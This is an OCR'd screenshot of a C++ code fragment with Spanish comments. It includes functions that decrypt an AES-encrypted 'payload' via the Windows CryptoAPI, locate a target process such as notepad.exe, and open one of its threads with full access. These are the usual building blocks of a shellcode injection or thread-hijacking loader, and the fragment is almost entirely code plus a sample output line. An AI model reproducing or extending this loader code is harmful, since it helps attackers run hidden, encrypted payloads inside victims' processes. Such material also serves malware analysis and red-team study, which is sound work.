 ```c++
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	
	return 0;
}



HANDLE FindThread(int pid){
	printf("[FindThread] for pid %d \n", pid);
	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;
	thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	while (Thread32Next(Snap, &thEntry)) {
		//printf("[FindThread] : %d \n", thEntry.th32OwnerProcessID);
		if (thEntry.th32OwnerProcessID == pid) 	{
			printf("[FindThread] : Thread found %d :", thEntry.th32ThreadID);
			printf(" ProcessId %d \n", thEntry.th32OwnerProcessID);
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
		}
	}
	CloseHandle(Snap);
	
	return hThread;
}

int FindProcess(const char *procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);//se crear un snapshot de los procesos en ejecución del sistema operativo
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
        pe32.dwSize = sizeof(PROCESSENTRY32); // se obtiene el tamaño total del objeo definido     
        if (!Process32First(hProcSnap, &pe32)) { // validación del snapshot creado
                CloseHandle(hProcSnap);
                return 0;
        }
        while (Process32Next(hProcSnap, &pe32)) { // iteración del snapshot
				//printf("[FindProcess: ] %s \n", pe32.szExeFile);
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) { // comprobación del nombre del proceso
                        pid = pe32.th32ProcessID; // obtención del pid del proceso
						printf("[FindProcess]: Process Found %s :", pe32.szExeFile);
						printf(" PID %d \n", pid);
                        break;
                }
```

[FindProcess]: Process Found notepad.exe : PID 6044